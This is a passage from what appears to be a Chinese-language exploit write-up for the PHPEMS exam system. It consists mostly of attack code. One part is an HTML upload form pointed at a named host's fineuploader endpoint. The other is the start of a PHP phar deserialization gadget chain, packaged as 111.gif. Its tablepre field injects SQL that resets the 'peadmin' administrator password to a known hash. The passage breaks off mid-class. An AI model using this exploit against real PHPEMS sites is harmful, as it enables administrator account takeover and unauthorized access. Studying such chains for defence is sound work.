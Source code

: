 [![](assets/1707954732-266459d679c8d80ab551759e1459497b.png)](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385636-b9027ce9-8c61-4c15-a6d8-c077fe2b87f9.png#averageHue=%23f7f1f1&id=PusDc&originHeight=724&originWidth=1598&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
upload.html 如下

```plain
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<form action="http://exam.cyan.wetolink.com/index.php?document-api-fineuploader" method="post" enctype="multipart/form-data">
    <label for="file">文件名：</label>
    <input type="file" name="qqfile" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

phar 生成脚本如下，上传生成的**111.gif**即可

```plain
<?php  
namespace PHPEMS{  
    class session{  
        public function __construct()  
        {  
            $this->sessionid="1111111";  
            $this->pdosql= new pdosql();  
            $this->db= new pepdo();  
        }  
    }  
    class pdosql  
    {  
        private $db ;  
        public function __construct()  
        {  
            $this->tablepre = 'x2_user set userpassword="e10adc3949ba59abbe56e057f20f883e" where username="peadmin";#--';  
            $this->db=new pepdo();  
        }  
    }  
    class pepdo  
```
